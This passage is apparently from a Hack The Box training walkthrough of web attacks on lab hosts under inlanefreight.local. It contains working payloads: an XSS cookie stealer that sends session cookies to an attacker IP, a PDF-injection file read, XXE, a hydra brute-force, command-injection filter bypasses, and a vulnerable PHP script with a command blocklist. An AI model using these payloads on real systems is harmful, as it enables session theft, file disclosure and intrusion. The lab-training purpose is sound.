[*] sys

[00:09:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:09:24 /2022-06-21/
```

Focusing on the `status` database, we find that it has just two tables:

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ sqlmap -r sqli.txt --dbms=mysql -D status --tables

<SNIP>

---
[00:10:29] [INFO] testing MySQL
[00:10:29] [INFO] confirming MySQL
[00:10:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:10:29] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
```

From here, we could attempt to dump all data from the `status` database and record yet another finding, `SQL Injection`. Try this out manually using the [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) module as guidance and refer to the [SQLMap Essentials](https://academy.hackthebox.com/module/details/58) module if you need help with the tool-based approach.

---

## support.inlanefreight.local

Moving on, we browse the `http://support.inlanefreight.local` site and see that it is an IT support portal. Support ticketing portals may allow us to engage with a live user and can sometimes lead to a client-side attack where we can hijack a user's session via a `Cross-Site Scripting (XSS)` vulnerability. Browsing around the application, we find the `/ticket.php` page where we can raise a support ticket. Let's see if we can trigger some type of user interaction. Fill out all details for a ticket and include the following in the `Message` field:

Code: javascript

```javascript
 "><script src=http://10.10.14.15:9000/TESTING_THIS</script>
```

Change the IP for your own and start a `Netcat` listener on port 9000 (or whatever port you desire). Click the `Send` button and check your listener for a callback to confirm the vulnerability.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ nc -lvnp 9000

listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.101] 56202
GET /TESTING_THIS%3C/script HTTP/1.1
Host: 10.10.14.15:9000
Connection: keep-alive
User-Agent: HTBXSS/1.0
Accept: */*
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

This is an example of a Blind Cross-Site Scripting (XSS) attack. We can review methods for Blind XSS detection in the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/103/section/1008) module.

Now we need to figure out how we can steal an admin's cookie so we can log in and see what type of access we can get. We can do this by creating the following two files:

1. index.php

Code: php

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

2. script.js

Code: javascript

```javascript
new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie
```

Next, start a PHP web server on your attack host as follows:

Web Enumeration & Exploitation

```shell-session
sudo php -S 0.0.0.0:9200
```

Finally, create a new ticket and submit the following in the message field:

Code: javascript

```javascript
"><script src=http://10.10.14.15:9200/script.js></script>
```

We get a callback on our web server with an admin's session cookie:

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ sudo php -S 0.0.0.0:9200

[Tue Jun 21 00:33:27 2022] PHP 7.4.28 Development Server (http://0.0.0.0:9200) started
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Accepted
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 [200]: (null) /script.js
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Closing
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 Accepted
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99

<SNIP>
```

Next, we can use a Firefox plugin such as [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) to log in using the admin's session cookie.



Click on the save button to save the cookie named `session` and click on `Login` in the top right. If all is working as expected, we will be redirected to `http://support.inlanefreight.local/dashboard.php`. Take some time and record yet another finding, `Cross-Site Scripting (XSS)`, noting that the finding is high-risk because it can be used to steal an active admin's session and access the ticketing queue system. Consult the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module for a refresher on XSS and the various ways this class of vulnerabilities can be leveraged, including session hijacking.

---

## tracking.inlanefreight.local

The site at `http://tracking.inlanefreight.local/` allows us to enter a tracking number and receive a PDF showing the status of our order. The application takes user input and generates a PDF document. Upon PDF generation, we can see that the `Tracking #:` field takes any input (not just numbers) that we specify in the search box before hitting the `Track Now` button. If we insert a simple JavaScript payload such as `<script>document.write('TESTING THIS')</script>` and click `Track Now`, we see that the PDF is generated and the message `TESTING THIS` is rendered, which seems to mean that the JavaScript code is executing when the webserver generates the document.



We notice that we can inject HTML as well. A simple payload such as `<h1>test</h1>` will render in the `Tracking #:` field upon PDF generation as well. Googling for something such as `pdf HTML injection vulnerability` returns several interesting hits such as [this post](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90) and [this post](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) discussing leveraging HTML injection, XSS, and SSRF for local file read. Now, while not covered in the `Penetration Tester Job Role Path`, it is important to note that we will often come across new things during our assessments.

---

## Dealing with The Unexpected

This is where the penetration tester mindset is key. We must be able to adapt, poke and prod, and take the information we find and apply our thought process to determine what is going on. After a bit of probing, we were able to deduce that the web application generates PDF reports, and we can control the input to one field that should only accept numbers, as it seems. Through a bit of research, we were able to identify a class of vulnerability that we may not be familiar with yet, but there is considerable research and documentation on. Many researchers publish extremely detailed research from their own assessments or bug bounties, and we can often use this as a guide to try to find similar issues. No two assessments are the same, but there are only so many possible web application technology stacks, so we are bound to see certain things over and over, and soon things that were new and difficult become second nature. It is worth checking out the [Server-side Attacks](https://academy.hackthebox.com/module/145/section/1297) module to learn more about SSRF and other server-side attacks.

Let's dig through some of these writeups and see if we can produce a similar result and gain local file read. Following this [post](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f), let's test for local file read using [XMLHttpRequest (XHR) objects](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) and also consulting this [excellent post](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) on local file read via XSS in dynamically generated PDFS. We can use this payload to test for file read, first trying for the `/etc/passwd` file, which is world-readable and should confirm the vulnerability's existence.

Code: javascript

```javascript
	<script>
	x=new XMLHttpRequest;
	x.onload=function(){  
	document.write(this.responseText)};
	x.open("GET","file:///etc/passwd");
	x.send();
	</script>
```

We paste the payload into the search box and hit the `Track Now` button and the newly generated PDF displays the file's contents back to us, so we have local file read!



It's worth reading these blog posts, studying this finding and its impact, and becoming familiar with this class of vulnerability. If we were to encounter something like this during a penetration test that we are unfamiliar with but seemed "off," we could refer to the [Penetration Testing Process](https://academy.hackthebox.com/module/90/section/939) to perform an analysis of the situation. If we did our research and still could not uncover the vulnerability, we should keep detailed notes of what we've tried and our thought process and ask our peers and more senior members of our team for assistance. Pentest teams often have folks who specialize or are stronger in certain areas, so someone on the team has likely seen this or something similar.

Play around with this vulnerability some more and see what else you can gain access to. For now, we'll note down another high-risk finding, `SSRF to Local File Read`, and move on.

---

## vpn.inlanefreight.local

It's common to come across VPN and other remote access portals during a penetration testing engagement. This appears to be a Fortinet SSL VPN login portal. During testing, we confirmed that the version in use was not vulnerable to any known exploits. This could be an excellent candidate for password spraying in a real-world engagement, provided we take a careful and measured approach to avoid account lockout.

We try a few common/weak credential pairs but get the following error message: `Access denied.`, so we can move on from here to the next application.

---

## gitlab.inlanefreight.local

Many companies host their own GitLab instances and sometimes don't lock them down properly. As covered in the [GitLab - Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1216) section of the `Attacking Common Applications` module, there are several steps that an admin can implement to limit access to a GitLab instance such as:

- Requiring admin approval for new sign-ups
- Configured lists of domains allowed for sign-ups
- Configuring a deny list

Occasionally we will come across a GitLab instance that is not adequately secured. If we can gain access to a GitLab instance, it is worth digging around to see what type of data we can find. We may discover configuration files containing passwords, SSH keys, or other information that could lead to furthering our access. After registering, we can browse to `/explore` to see what projects, if any, we have access to. We can see that we can access the `shopdev2.inlanefreight.local` project, which gives us a hint to another subdomain that we did not uncover using the DNS Zone Transfer and likely could not find using subdomain brute-forcing.



Before exploring the new subdomain, we can record another high-risk finding: `Misconfigured GitLab Instance`.

---

## shopdev2.inlanefreight.local

Our enumeration of the GitLab instance led to another vhost, so let's first add it to our `/etc/hosts` file so we can access it. Browsing to `http://shopdev2.inlanefreight.local`, we're redirected to a `/login.php` login page. Typical authentication bypasses don't get us anywhere, so we go back to the basics per the `Attacking Common Applications` module [Application Discovery & Enumeration](https://academy.hackthebox.com/module/113/section/1088) section and try some weak credential pairs. Sometimes it's the simplest things that work (and yes, we do see this type of stuff in production, both internal AND external) and can log in with `admin:admin`. Once logged in, we see some sort of online store for purchasing wholesale products. When we see `dev` in a URL (especially external-facing), we can assume it is not production-ready and worth digging into, especially because of the comment `Checkout Process not Implemented` near the bottom of the page.

We can test the search for injection vulnerabilities and search around for IDORs and other flaws but don't find anything particularly interesting. Let's test the purchasing flow, focusing on the shopping cart checkout process and capture the requests in Burp Suite. Add an item or two to the cart and browse to `/cart.php` and click the `I AGREE` button so we can analyze the request in Burp. Looking at Burp, we see that a `POST` request is made with `XML` in the body like so:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
    <root>
     <subtotal>
      undefined
     </subtotal>
     <userid>
      1206
     </userid>
    </root>
```

Think back to the module content, namely the [Web Attacks](https://academy.hackthebox.com/module/134/section/1203) module; this looks like a good candidate for `XML External Entity (XXE) Injection` because the form seems to be sending data to the server in XML format. We try a few payloads and finally can achieve local file read to view the contents of the `/etc/passwd` file with this payload:

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
<root>
	<subtotal>
		undefined
	</subtotal>
	<userid>
		&xxetest;
	</userid>
</root>
```



Let's jot down another high-risk finding, `XML External Entity (XXE) Injection` (we've got quite the list so far!), and move on to the last vhost/subdomain.

---

## monitoring.inlanefreight.local

We discovered the `monitoring` vhost earlier, so we won't repeat the process. We used ffuf, but this enumeration can also be performed with other tools. Give it a try with `GoBuster` to become comfortable with more tools. Browsing to `http://monitoring.inlanefreight.local` results in a redirect to `/login.php`. We can try some authentication bypass payloads and common weak credential pairs but don't get anywhere, just receiving the `Invalid Credentials!` error every time. Since this is a login form, it is worth exploring further so we can fuzz it a bit with Burp Intruder to see if we can provoke an error message indicative of a SQL injection vulnerability, but we are not successful.

An analysis of the POST request and response in Burp Suite does not yield anything interesting. At this point, we've exhausted nearly all possible web attacks and turn back to the module content, remembering the [Login Brute Forcing](https://academy.hackthebox.com/module/57/section/503) module that focuses on the tool `hydra`. This tool can be used to brute-force HTTP login forms, so let's give it a go. We'll use the same [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt) from the `SecLists` GitHub repo as earlier.

We'll set up `hydra` to perform the brute-forcing attack, specifying the `Invalid Credentials!` error message to filter out invalid login attempts. We get a hit for the credential pair `admin:12qwaszx`, a common "keyboard walk" password that is easy to remember but can be very easily brute-forced/cracked.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ hydra -l admin -P ./passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:Invalid Credentials!"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-21 11:32:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 99 login tries (l:1/p:99), ~7 tries per task
[DATA] attacking http-post-form://monitoring.inlanefreight.local:80/login.php:username=admin&password=^PASS^:Invalid Credentials!
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-21 11:32:22
```

Once logged in, we are presented with some sort of monitoring console. If we type `help`, we are presented with a list of commands. This seems like a restricted shell environment to perform limited tasks and something very dangerous that should not be exposed externally. The last class of vulnerabilities taught in the `Penetration Tester Job Role Path` that we have not yet covered is [Command Injections](https://academy.hackthebox.com/module/details/109).



We walk through each of the commands. Trying `cat /etc/passwd` does not work, so it does appear that we are indeed in a restricted environment. `whoami` and `date` provide us with some basic information. We don't want to `reboot` the target and cause a service disruption. We are unable to `cd` to other directories. Typing `ls` shows us a few files that are likely stored in the directory that we are currently restricted to.



Looking through the files, we find an authentication service and also that we are inside a container. The last option in the list is `connection_test`. Typing that in yields a `Success` message and nothing more. Going back over to Burp Suite and proxying the request, we see that a `GET` request is made to `/ping.php` for the localhost IP `127.0.0.1`, and the HTTP response shows a single successful ping attack. We can infer that the `/ping.php` script is running an operating command using a PHP function such as `shell_exec(ping -c 1 127.0.0.1)` or perhaps similar using the [system()](https://www.php.net/manual/en/function.system.php) function to execute a command. If this script is coded improperly, it could easily result in a command injection vulnerability, so let's try some common payloads.

There seems to be some sort of filtering in place because trying standard payloads like `GET /ping.php?ip=%127.0.0.1;id` and `GET /ping.php?ip=%127.0.0.1|id` result in an `Invalid input` error, meaning there is probably a character blacklist in play. We can bypass this filter by using a line feed character `%0A` (or new-line character) as our injection operator following the methodology discussed in the [Bypassing Space Filters](https://academy.hackthebox.com/module/109/section/1036) section. We can make a request appending the new-line character like so `GET /ping.php?ip=127.0.0.1%0a`, and the ping is still successful, meaning the character is not blacklisted.

We've won the first battle, but there seems to be another type of filter in place, as trying something like `GET /ping.php?ip=127.0.0.1%0aid` still results in an `Invalid input` error. Next, we can play around with the command syntax and see that we can bypass the second filter using single quotes. Switching to `cURL`, we can run the `id` command as follows:

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'd"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.045/0.045/0.045/0.000 ms
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

We have achieved command execution as the `webdev` user. Digging around a bit more, we see that this host has multiple IP addresses, one of which places it inside the `172.16.8.0/23` network that was part of the initial scope. If we can gain stable access to this host, we may be able to pivot into the internal network and start attacking the Active Directory domain.

Web Enumeration & Exploitation

```shell-session
swmpdnky@htb[/htb]$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'fconfig"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms

<SNIP>

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.203.101  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:67:a5  txqueuelen 1000  (Ethernet)
        RX packets 10055  bytes 1041358 (1.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2316  bytes 4030180 (4.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.254.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:feb9:a62d  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a6:2d  txqueuelen 1000  (Ethernet)
        RX packets 21515  bytes 1890242 (1.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Our next challenge is finding a way to a reverse shell. We can run single commands, but anything with a space does not work. Back to the [Bypassing Space Filters](https://academy.hackthebox.com/module/109/section/1036) section of the `Command Injections` module, we remember that we can use the `($IFS) Linux Environment Variable` to bypass space restrictions. We can combine this with the new-line character bypass and start enumerating ways to obtain a reverse shell. To aid us, let's take a look at the `ping.php` file to get an understanding of what is being filtered so we can limit the amount of guesswork needed.

Switching back to Burp and making the request `GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}ping.php`, or similar, gives us the file contents, and we can work on beating the filter and finding a way to establish a reverse shell.

Code: php

```php
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }

  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
<?php
echo $output;
?>
```

We can see that the majority of options for getting a reverse shell are filtered which will make things difficult, however one that is not is `socat`. Socat is a versatile tool that can be used for catching shells, and even pivoting as we have seen in the [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158) module. Let's check and see if it's available to us on the system. Heading back to Burp and using the request `GET /ping.php?ip=127.0.0.1%0a'w'h'i'ch${IFS}socat` shows us that it is on the system, located at `/usr/bin/socat`.



---

## Next Steps

Now that we've finally worked our way through all of the externally-facing services and web applications, we have a good idea as to our next steps. In the next section, we will work on establishing a reverse shell into the internal environment and escalating our privileges to establish some sort of persistence on the target host.